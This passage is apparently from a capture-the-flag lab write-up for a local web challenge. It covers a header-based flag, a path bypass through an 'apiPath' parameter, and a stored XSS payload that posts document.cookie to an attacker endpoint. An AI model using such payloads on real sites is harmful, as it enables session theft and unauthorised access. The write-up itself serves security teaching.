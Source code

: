   ```
  // response
  HTTP/1.0 200 OK
  Content-Type: text/html; charset=utf-8
  Content-Length: 34
  Server: Werkzeug/2.0.2 Python/3.9.2
  Date: Mon, 09 Oct 2023 01:57:40 GMT
  Give-Room-3-Flag header not found!
  ```
  Following the clue given in the response, add the following to the next `POST` request
  ```
  Give-Room-3-Flag: you can write anything here
  ```

  You will get the following response
  ```
  HTTP/1.0 200 OK
  Content-Type: text/html; charset=utf-8
  Content-Length: 22
  Server: Werkzeug/2.0.2 Python/3.9.2
  Date: Mon, 09 Oct 2023 02:11:33 GMT

  0x4067{WWW_FOXY_PROXY}
  ```
  
  
  
- Exploit the vulnerability described in Room 3 to move on to Room 4!
  
  Pay special attention to the the URL in the browser
  ```
  http://0.0.0.0:5000/5f106379cbda5f75215d54ed15ec26e0712c2262a9abe8b1b249980a0f2107df?apiPath=/609ab7b9aa350754009970c42b38b769667451685bfa00d5346070f75fe455c0
  ```
  
  While you are not able to access `http://0.0.0.0:5000/room-3-secret`, you can do so with `http://0.0.0.0:5000/5f106379cbda5f75215d54ed15ec26e0712c2262a9abe8b1b249980a0f2107df?apiPath=/room-3-secret`  
  Then, you will see the button to access Room 4

- What kind of XSS vulnerability is being demonstrated in Room 4?
  ```
  Stored XSS
  ```
  Messages sent from the Message Panel are stored on the server and then displayed on the Admin Panel.  
  By crafting a XSS payload and sending it to the admin, it will be executed everytime the Admin Panel is opened.

- What is the flag returned in Room 4?
  
  To solve this question, we can create a payload that sends a HTTP POST request to the malicious server with the cookies of the webpage in the request body.  
  Send the following from the Message Panel:
  ```html
  <script>fetch('http://0.0.0.0:5000/attackserver', { method: 'POST', body: document.cookie})</script>
  ```

